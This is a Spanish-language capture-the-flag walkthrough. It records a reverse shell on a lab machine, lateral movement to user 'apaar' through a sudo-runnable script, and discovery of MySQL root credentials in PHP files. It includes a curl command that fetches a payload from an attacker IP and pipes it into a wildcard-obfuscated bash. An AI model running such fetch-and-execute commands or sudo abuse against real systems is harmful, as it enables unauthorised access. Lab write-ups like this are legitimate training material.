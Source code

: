 ![[Pasted image 20231118212931.png]]
### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```
### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![[Pasted image 20231118214103.png]]
### veamos los permisos SUID
![[Pasted image 20231119202137.png]]
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.
### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando

```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20231119202426.png]]
### perfecto. somos apaar. hacemos tratamiento de tty y listamos directorios
![[Pasted image 20231119202943.png]]
###### El index.php parece no tener nada muy importante y en imagenes tampoco.
### seguimos buscando y conseguimos una ruta donde tenemos archivos muy interesantes
vamos a mirar el archivo hacker.php
![[Pasted image 20231119203534.png]]
###### tenemos lo que parece ser una pagina web con una imagen y un mensaje que dice: mira en la oscuridad y podrás conseguir la respuesta
### hacemos cat al siguiente archivo en este caso account.php
![[Pasted image 20231119203858.png]]
###### en este caso tenemos informacion sobre una base de datos. nos dan pistas sobre el tipo de hash utilizados y parece que apunta a la tabla de usuarios
### el archivo index.php nos da informacion sobre lo que efectivamente es una base de datos
![[Pasted image 20231119204232.png]]
###### tenemos informacion sobre una base de datos mysql y al parecer las credenciales son
```python
	DATABASE:

	User: root

	Passwd: !@m+her00+@db
```